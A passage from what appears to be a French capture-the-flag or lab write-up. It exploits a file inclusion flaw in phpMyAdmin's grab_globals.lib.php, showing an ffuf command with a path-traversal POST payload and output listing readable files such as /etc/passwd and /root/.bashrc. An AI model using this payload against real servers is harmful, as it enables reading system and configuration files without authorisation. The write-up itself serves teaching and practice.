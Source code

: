 Il s'agit en réalité d'une faille d'inclusion car si on charge le fichier `register.php` vu au tout début de cet article on n'ontient pas de code PHP.

Mon idée initiale était donc de trouver un fichier à inclure dans lequel je pourrais aussi injecter du code PHP (fichier de log par exemple). A noter que le path a un préfixe par conséquent ça élimine certaines techniques d'exploitation.

J'ai utiliser `ffuf` pour essayer de trouver des fichiers intéressants :

```bash
$ ffuf -x http://192.168.1.34:3128/ -u http://www.zincftp.com/phpMyAdmin/libraries/grab_globals.lib.php  -X POST -d "usesubform[1]=1&usesubform[2]=1&subform[1][redirect]=../../../../../FUZZ&subform[1][cXIb8O3]=1"  -H "Content-type: application/x-www-form-urlencoded" -w wordlists/files/Linux-files.txt -fr "failed to open stream:"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://www.zincftp.com/phpMyAdmin/libraries/grab_globals.lib.php
 :: Wordlist         : FUZZ: wordlists/files/Linux-files.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : usesubform[1]=1&usesubform[2]=1&subform[1][redirect]=../../../../../FUZZ&subform[1][cXIb8O3]=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://192.168.1.34:3128/
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: failed to open stream:
________________________________________________

/etc/group              [Status: 200, Size: 669, Words: 1, Lines: 56]
/etc/motd               [Status: 200, Size: 419, Words: 51, Lines: 12]
/etc/hosts              [Status: 200, Size: 244, Words: 21, Lines: 11]
/etc/passwd             [Status: 200, Size: 2604, Words: 14, Lines: 58]
/proc/version           [Status: 200, Size: 150, Words: 19, Lines: 2]
/etc/issue              [Status: 200, Size: 809, Words: 254, Lines: 32]
/proc/cmdline           [Status: 200, Size: 63, Words: 4, Lines: 2]
/proc/mounts            [Status: 200, Size: 707, Words: 76, Lines: 16]
/etc/init.d/apache2     [Status: 200, Size: 5736, Words: 1321, Lines: 198]
/etc/mysql/my.cnf       [Status: 200, Size: 3897, Words: 485, Lines: 148]
/etc/apache2/apache2.conf [Status: 200, Size: 10587, Words: 1539, Lines: 299]
/etc/apache2/ports.conf [Status: 200, Size: 59, Words: 8, Lines: 6]
/root/.bashrc           [Status: 200, Size: 2227, Words: 293, Lines: 73]
/etc/apache2/sites-available/default [Status: 200, Size: 11041, Words: 491, Lines: 576]
:: Progress: [62/62] :: Job [1/1] :: 120 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
